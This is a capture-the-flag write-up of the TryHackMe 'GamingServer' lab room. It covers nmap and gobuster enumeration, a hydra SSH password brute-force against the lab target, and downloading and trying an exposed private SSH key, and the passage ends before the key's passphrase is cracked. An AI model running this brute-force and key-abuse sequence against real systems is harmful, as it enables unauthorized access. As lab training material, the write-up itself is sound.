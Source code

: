 # THM: GamingServer

| Stat | Value |
| ---------- | -------------------------------------------- |
| Image | <img src="../../images/write_ups/try_hack_me/gaming_server/gaming_server.jpeg" alt="GamingServer" width="90"/> |
| Room | GamingServer |
| URL | [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/gamingserver) |
| Difficulty | Easy |

## Concepts/Tools Used

- [gobuster](../../tools/gobuster.md)
- [hydra](../../tools/hydra.md)
- wget
- [john](../../tools/john.md)
- lxd

## Room Description

An Easy Boot2Root box for beginners.

## Process

Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

I run nmap to see what ports are open:
```bash
$ nmap -T4 -n -sC -sV -Pn -v -p- target.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-06-25 14:28 BST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Initiating ARP Ping Scan at 14:29
Scanning target.thm (10.10.29.122) [1 port]
Completed ARP Ping Scan at 14:29, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 14:29
Scanning target.thm (10.10.29.122) [65535 ports]
Discovered open port 80/tcp on 10.10.29.122
Discovered open port 22/tcp on 10.10.29.122
Completed SYN Stealth Scan at 14:29, 1.28s elapsed (65535 total ports)
Initiating Service scan at 14:29
Scanning 2 services on target.thm (10.10.29.122)
Completed Service scan at 14:29, 6.02s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.29.122.
Initiating NSE at 14:29
Completed NSE at 14:29, 0.27s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.01s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Nmap scan report for target.thm (10.10.29.122)
Host is up (0.00019s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
MAC Address: 02:18:00:64:DD:0F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Initiating NSE at 14:29
Completed NSE at 14:29, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.35 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

SSH allows password login attempts. I start to check the site on port 80.

Inspecting http://target.thm/ has an interesting comment in html:
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->

It looks like I found a username. I check the robots.txt file and it shows the following:

```bash
user-agent: *
Allow: /
/uploads/
```

The uploads directory has a dictionary file dict.lst, I download it using the following command:

```bash
$ wget http://target.thm/dict.lst
```

Since I have a username and a dictionary, I try both on the ssh service for this machine using hydra. Here is the command I ran:

```bash
$ hydra -l john -P dict.lst target.thm ssh
```

That yield nothing.

I ran gobuster to find more directories on the server. Here is the command I ran:

```bash
$ gobuster dir -u http://target.thm -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://target.thm/uploads/]
/secret               (Status: 301) [Size: 309]
```

The /secret directory has a single file called secretKey. It is a private rsa key. I download it using the following command:

```bash
$ wget http://target.thm/secret/secretKey
```

Since this is a private rsa key I change the permission to private read/write so I won't get a warning each time I use this. Here is the command I used to fix the permissions:

```bash
$ chmod 600 secretKey
```

I try to ssh into the machine with this key but it wants a passphrase for the key. Here is what I used to ssh with the key:

```bash
$ ssh john@target.thm -i secretKey
```
